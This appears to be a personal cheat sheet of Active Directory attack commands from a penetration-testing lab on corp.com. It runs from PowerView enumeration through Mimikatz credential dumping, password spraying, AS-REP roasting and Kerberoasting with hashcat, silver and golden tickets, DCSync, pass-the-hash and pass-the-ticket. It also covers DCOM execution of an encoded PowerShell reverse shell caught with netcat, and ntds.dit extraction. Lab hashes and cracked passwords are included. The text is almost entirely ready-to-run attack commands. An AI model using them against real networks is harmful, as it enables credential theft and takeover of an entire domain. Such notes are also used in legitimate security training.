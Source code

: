 ### Enumertaion 
```
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Get-NetGroup | select cn
Get-NetUser | select cn,pwdlastset,lastlogon
```

```
Find-LocalAdminAccess
Get-NetSession -ComputerName web04 -Verbose

Get-NetSession -ComputerName client74

Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

.\PsLoggedon.exe \\files04
```

### SPN
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Enumerating Object Permissions
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

```
Get-ObjectAcl -Identity <user>
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

#exploit
net group "Management Department" <user> /add /domain
```
External site https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```

### Domain Shares
```
Find-DomainShare
ls \\dc1.corp.com\sysvol\corp.com\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml     # Password cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

### Mimikatz
```
privilege::debug
sekurlsa::logonpasswords

## Access the SMB
dir \\web04.corp.com\backup
sekurlsa::tickets                         # Group 0 - Ticket Granting Service and Group 2 - Ticket Granting Ticket
```
## Authentication Attack
### Password Spraying from Windows 
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
### AS-REP Roasting
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# From winows
.\Rubeus.exe asreproast /nowrap
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
### Kerberoasting
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
cat hashes.kerberoast
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

## Linux 
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Silver Ticket 
```
Access any web or smbshare
iwr -UseDefaultCredentials http://web04

##Mimikatz
privilege::debug
sekurlsa::logonpasswords                 # found iis service hash NTLM     : 4d28cf5252d39971419580a51484ca09
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
klist
iwr -UseDefaultCredentials http://web04   # it will work
```
### Domain Controller Synchronization (DCsync attack)
```
.\mimikatz.exe
lsadump::dcsync /user:corp\dave         #   Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
lsadump::dcsync /user:corp\Administrator  # Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
Cracked Administrator hash found BrouhahaTungPerorateBroom2023!
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

## Lateral Movement 
### PSEXEC 
Pre-req: Administrators local group, ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
### PASS-THE HASH 
```
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
### Overpass the Hash
abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT).
```
mimikatz
privilege::debug
sekurlsa::logonpasswords    # NTLM : 369def79d8372408bf6e93364cc93075 and username Jen
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
klist        # if its 0 thats fine
net use \\files04
klist
.\PsExec.exe \\files04 cmd
```
### Pass the Ticket
Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. 
```
ls \\web04\backup                # '\\web04\backup' is denied.

Mimikatz
privilege::debug
sekurlsa::tickets /export
dir *.kirbi                             # -a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
klist
ls \\web04\backup
```

### DCOM
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
tasklist | findstr "calc"
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")

$ kali: nc -lnvp 443
whoami
hostname
```
### Golden ticket 
```
PsExec64.exe \\DC1 cmd.exe

Mimikatz
privilege::debug
lsadump::lsa /patch                             # User : krbtgt  NTLM : 1693c6cefafffc7af11ef34d1c788f47
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
PsExec.exe \\dc1 cmd.exe
whoami /groups                    # will be in Admin Group
```

### vshadow.exe
```
vshadow.exe -nw -p  C:                                # - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
